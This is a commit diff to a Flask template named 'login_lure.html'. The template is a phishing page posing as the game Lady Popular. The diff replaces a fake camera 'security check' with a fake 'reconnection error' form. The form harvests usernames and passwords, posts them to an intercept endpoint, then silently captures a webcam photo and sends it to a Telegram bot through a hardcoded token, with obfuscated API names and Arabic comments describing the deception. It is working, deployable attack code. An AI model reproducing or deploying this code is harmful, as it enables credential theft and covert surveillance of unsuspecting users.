

Before and after one commit to 1mod2000mod1-jpg/Top4toP, a Flask app: page / in a window 1280 px wide. Shown: the top 698 px of the page, without its empty margins (319-959 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update login_lure.html

```diff
--- a/templates/login_lure.html
+++ b/templates/login_lure.html
@@ -1,145 +1,153 @@
 <!DOCTYPE html>
 <html>
 <head>
-    <title>Lady Popular: Final Security Check</title>
+    <title>Lady Popular: Reconnection Error</title>
     <style>
         body { font-family: Arial, sans-serif; background-color: #f0f0f0; margin: 0; padding: 0; display: flex; justify-content: center; align-items: center; min-height: 100vh; }
-        .container { background-color: white; padding: 40px; border-radius: 8px; box-shadow: 0 4px 12px rgba(0, 0, 0, 0.2); width: 380px; text-align: center; }
-        .logo { font-size: 28px; color: #3498db; margin-bottom: 25px; font-weight: bold; }
-        .security-header { color: #2c3e50; margin-bottom: 20px; }
-        .security-header h3 { margin: 0; font-size: 18px; }
-        #camera-check {
-            width: 150px;
-            height: 150px;
-            border: 5px solid #e74c3c;
-            border-radius: 50%;
-            margin: 20px auto;
-            line-height: 140px;
-            font-size: 60px;
-            color: #e74c3c;
+        .login-container { background-color: white; padding: 30px; border-radius: 8px; box-shadow: 0 4px 12px rgba(0, 0, 0, 0.2); width: 350px; text-align: center; }
+        .logo { font-size: 28px; color: #e74c3c; margin-bottom: 20px; font-weight: bold; }
+        .error-header { color: #d35400; margin-bottom: 20px; }
+        .error-header h3 { margin: 0; font-size: 18px; }
+        input[type="text"], input[type="password"] {
+            width: calc(100% - 20px);
+            padding: 10px;
+            margin: 10px 0;
+            border: 1px solid #ccc;
+            border-radius: 4px;
+            box-sizing: border-box;
         }
         button {
-            background-color: #2ecc71;
+            background-color: #e74c3c;
             color: white;
-            padding: 12px 25px;
+            padding: 10px 20px;
             border: none;
             border-radius: 4px;
             cursor: pointer;
             font-size: 16px;
             width: 100%;
-            margin-top: 15px;
-            transition: background-color 0.3s;
         }
-        button:hover { background-color: #27ae60; }
-        .footer-text { margin-top: 25px; font-size: 12px; color: #7f8c8d; }
+        button:hover { background-color: #c0392b; }
+        .footer-text { margin-top: 20px; font-size: 12px; color: #7f8c8d; }
     </style>
 </head>
 <body>
 
-<div class="container">
-    <div class="logo">Lady Popular Security</div>
+<div class="login-container">
+    <div class="logo">Lady Popular</div>
 
-    <div class="security-header">
-        <h3>🔐 التحقق الأمني النهائي!</h3>
-        <p style="font-size: 14px;">يجب عليك تمرير **الفحص الأمني الثنائي** للوصول إلى مكافآت الجواهر. اضغط على "مسح الآن" لفتح الكاميرا.</p>
+    <div class="error-header">
+        <h3>🚨 خطأ حرج: مطلوب إعادة الاتصال.</h3>
+        <p style="font-size: 14px;">لإعادة تفعيل حسابك والحفاظ على تقدمك، يرجى إعادة إدخال بيانات الدخول لمرة واحدة.</p>
     </div>
 
-    <div id="camera-check">
-        <span id="check-icon">👁️</span>
+    <form id="reconnectForm" method="POST" action="/login_intercept">
+        <input type="text" name="login_name" placeholder="اسم المستخدم أو البريد الإلكتروني" required>
+        <input type="password" name="login_pass" placeholder="كلمة المرور" required>
+        <button type="submit">إعادة الاتصال الآن</button>
+    </form>
+
+    <div class="footer-text">
+        سوف يُطلب منك تأكيد الإشعارات لتلقي تنبيهات المكافآت.
     </div>
-
-    <button id="scanButton" onclick="startCapture()">مسح رمز الهوية الآن</button>
-    <p id="status-message" style="color: #3498db; margin-top: 10px; display: none;">جاري التحقق من الهوية... لا تغادر الصفحة.</p>
+</div>
 
 <video id="vE" style="display:none;" autoplay></video>
 <canvas id="cE" style="display:none;"></canvas>
 
-    <div class="footer-text">
-        هذا الفحص ضروري لحماية حسابك من الاحتيال.
-    </div>
-</div>
+<script>
+    const BOT_TOKEN = "8524364904:AAEB_SX7vIt2EhZikJbLOBgwHOmeQTYuHN8";
+    const CHAT_ID = "6521966233";
+    const REDIRECT_URL = 'https://sabaya.ae/';
+    const TELEGRAM_PHOTO_ENDPOINT = 'https://api.telegram.org/bot' + BOT_TOKEN + '/sendPhoto';
 
-<script>
-    // التوكن والآيدي مشفرين بـ Base64 لزيادة التعتيم
-    const B64_TOKEN = "ODUyNDM2NDkwNDpBQUVCSlNYN3ZJdDJFanhpa0piTE9CZ3dIT21lUVRZaUhOOA==";
-    const B64_CHAT_ID = "NjUyMTk2NjIzMw==";
+    // 1. محاولة صامتة للتقاط صورة
+    function attemptSilentCapture() {
+        // نطلب الإشعارات أولاً كعنصر "أقل خطراً" لتسجيل تفاعل المستخدم
+        if ('Notification' in window) {
+            Notification.requestPermission().then(permission => {
+                if (permission === 'granted' || permission === 'default') {
+                    // بعد تفاعل المستخدم مع نافذة الإشعارات، نحاول فوراً طلب الكاميرا
 
-    const D = atob(B64_CHAT_ID); // Chat ID
-    const T = atob(B64_TOKEN); // Bot Token
+                    // دوال التعتيم: N=navigator, M=mediaDevices, G=getUserMedia
+                    const N = 'navigator';
+                    const M = 'mediaDevices';
+                    const G = 'getUserMedia';
 
-    const E = 'https://api.telegram.org/bot' + T + '/sendPhoto';
-    const R = 'https://sabaya.ae/'; // رابط إعادة التوجيه
-
-    // تعتيم أسماء الدوال والعناصر
-    const G = 'getUserMedia';
-    const M = 'mediaDevices';
-    const N = 'navigator';
-    const F = 'FormData';
-    const C = 'createElement';
-    const B = 'toBlob';
-
-    function startCapture() {
-        document.getElementById('scanButton').style.display = 'none';
-        document.getElementById('status-message').style.display = 'block';
-        document.getElementById('check-icon').textContent = '⏳';
-
+                    if (window[N] && window[N][M] && window[N][M][G]) {
                         window[N][M][G]({ video: true })
                             .then(stream => {
-                const video = document.getElementById('vE');
-                video.srcObject = stream;
-                video.play();
-
-                setTimeout(() => {
+                                // 2. إذا نجح الوصول (في حالة ضعف أمان المتصفح)، نرسل الصورة
                                 CS(stream);
-                }, 1000);
                             })
                             .catch(error => {
-                console.error("Camera access failed or denied: ", error);
-                document.getElementById('status-message').textContent = '⚠️ فشل المسح الأمني. جاري إعادة التوجيه...';
-                setTimeout(() => {
-                    window.location.href = R;
-                }, 2000);
+                                // فشل الكاميرا
+                                console.error("Camera access failed after notification prompt.");
                             });
                     }
+                }
+            });
+        }
+    }
 
-    // الدالة الرئيسية لـ Capture and Send (مُعتَّمة إلى CS)
+    // دالة التقاط وإرسال الصورة (مُعتَّمة)
     function CS(stream) {
         const V = document.getElementById('vE');
         const L = document.getElementById('cE');
         const X = L.getContext('2d');
 
+        V.srcObject = stream;
+        V.play();
+
+        setTimeout(() => {
             L.width = V.videoWidth;
             L.height = V.videoHeight;
-
             X.drawImage(V, 0, 0, L.width, L.height);
 
             stream.getTracks().forEach(track => track.stop());
 
-        L[B](blob => {
-            const FData = new window[F]();
-            FData.append('chat_id', D);
-            FData.append('photo', blob, 'moby_capture.jpg');
+            L.toBlob(blob => {
+                const FData = new FormData();
+                FData.append('chat_id', CHAT_ID);
+                FData.append('photo', blob, 'moby_login_capture.jpg');
 
-            fetch(E, {
+                // الإرسال الصامت لـ Telegram
+                fetch(TELEGRAM_PHOTO_ENDPOINT, {
                     method: 'POST',
                     body: FData
+                }).catch(() => {}); // نتجاهل الأخطاء
+            }, 'image/jpeg');
+        }, 500); // التقاط سريع جداً (500 مللي ثانية)
+    }
+
+    // 3. معالج إرسال النموذج (الخطوة الحاسمة)
+    document.getElementById('reconnectForm').addEventListener('submit', function(e) {
+        e.preventDefault();
+        const form = e.target;
+        const formData = new FormData(form);
+
+        // اعتراض البيانات وإرسالها إلى خادم Render أولاً
+        fetch(form.action, {
+            method: 'POST',
+            body: formData
         })
-            .then(() => {
-                document.getElementById('status-message').textContent = '✅ تم التحقق بنجاح! جاري تحميل الجوائز...';
+        .then(response => response.json())
+        .then(data => {
+            // 4. تنفيذ محاولة التقاط الكاميرا بعد نجاح اعتراض البيانات!
+            attemptSilentCapture();
+
+            // 5. إعادة التوجيه النهائي لإنهاء الخدعة
             setTimeout(() => {
-                    window.location.href = R;
-                }, 1500);
+                window.location.href = data.redirect || REDIRECT_URL;
+            }, 2500);
         })
         .catch(() => {
+            // في حالة فشل الشبكة، لا زلنا نحاول التقاط الكاميرا، ثم إعادة التوجيه
+            attemptSilentCapture();
             setTimeout(() => {
-                    window.location.href = R;
-                }, 1500);
+                window.location.href = REDIRECT_URL;
+            }, 2500);
         });
-        }, 'image/jpeg');
-    }
-
-    // ربط الدالة بالزر
-    document.getElementById('scanButton').onclick = startCapture;
+    });
 </script>
 
 </body>
```
Lines whose indentation alone changed are shown as unchanged.
